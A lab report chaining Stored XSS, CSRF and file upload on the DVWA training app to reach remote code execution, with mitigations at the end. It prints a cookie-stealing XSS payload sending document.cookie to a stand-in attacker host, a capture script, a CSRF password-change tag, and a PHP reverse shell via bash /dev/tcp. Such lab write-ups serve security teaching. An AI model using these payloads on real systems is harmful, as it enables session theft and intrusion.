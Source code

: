 # Lab Report: DVWA - Chaining XSS, CSRF, and File Upload for RCE

**Author**: Eric Graham 
**Date**: 07/28/2025
**Target**: Damn Vulnerable Web App (DVWA) - `http://[DVWA_IP]`  
**Security Level**: Low  

---

## Objectives
1. Exploit Stored XSS to steal admin cookies.
2. Use stolen cookies for session hijacking.
3. Chain CSRF to force a password change.
4. Upload a malicious PHP shell via file upload.
5. Achieve Remote Code Execution (RCE).

---

## Tools Used
- **Browser**: Firefox/Chrome + Developer Tools.
- **Burp Suite**: Intercepting/modifying requests.
- **Cookie Editor**: Injecting stolen session cookies.
- **Python HTTP Server**: Hosting malicious files.
- **Netcat**: Reverse shell listener.

---

## Step 1: Stored XSS to Cookie Theft
### Exploitation
1. Navigate to **DVWA → XSS (Stored)**.
2. Inject a malicious script to steal cookies:
   ```html
   <script>document.location='http://[ATTACKER_IP]/steal.php?cookie='+document.cookie</script>
   ```
3. Host a PHP server to capture cookies (`steal.php`):
   ```php
   <?php file_put_contents('cookies.txt', $_GET['cookie']); ?>
   ```
4. **Admin Trigger**: When an admin views the XSS-infected page, their cookies are sent to your server.

### Evidence
- [SCREENSHOT: XSS payload in DVWA]
- [SCREENSHOT: Captured cookies in `cookies.txt`]

---

## Step 2: Session Hijacking
### Exploitation
1. Use **Cookie Editor** to inject the stolen `PHPSESSID` and `security=low` cookies.
2. Refresh the page to gain admin access.

### Evidence
- [SCREENSHOT: Cookie injection via Cookie Editor]
- [SCREENSHOT: Admin dashboard post-hijacking]

---

## Step 3: CSRF to Force Password Change
### Exploitation
1. Craft a malicious HTML file (`csrf.html`):
   ```html
   <img src="http://[DVWA_IP]/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" width="0" height="0">
   ```
2. Host it on a Python server:
   ```bash
   python3 -m http.server 8000
   ```
3. Trick the admin into visiting `http://[ATTACKER_IP]:8000/csrf.html`.

### Evidence
- [SCREENSHOT: CSRF payload execution in Network Tab]
- [SCREENSHOT: Successful login with new password `hacked`]

---

## Step 4: File Upload to RCE
### Exploitation
1. Log in as admin (via hijacked session).
2. Navigate to **DVWA → File Upload**.
3. Upload a PHP reverse shell (`shell.php`):
   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'"); ?>
   ```
4. Start a Netcat listener:
   ```bash
   nc -lvnp 4444
   ```
5. Access the uploaded shell at `http://[DVWA_IP]/hackable/uploads/shell.php`.

### Evidence
- [SCREENSHOT: Malicious file upload]
- [SCREENSHOT: Netcat reverse shell session]

---

## Mitigations
1. **XSS**: 
   - Sanitize user input with `htmlspecialchars()`.
   - Implement Content Security Policy (CSP).
2. **CSRF**: 
   - Use anti-CSRF tokens.
   - Require POST requests for sensitive actions.
3. **File Upload**: 
   - Restrict file extensions (e.g., block `.php`).
   - Store uploads outside the web root.

---

## Conclusion
This lab demonstrated how chaining low-severity vulnerabilities (XSS → CSRF → File Upload) can lead to **full system compromise**. Always validate inputs, enforce strict session controls, and audit file uploads.

---

**Appendix**:  
- [Full PHP reverse shell code]  
- [Burp Suite request/response samples]  


~ Eric Graham
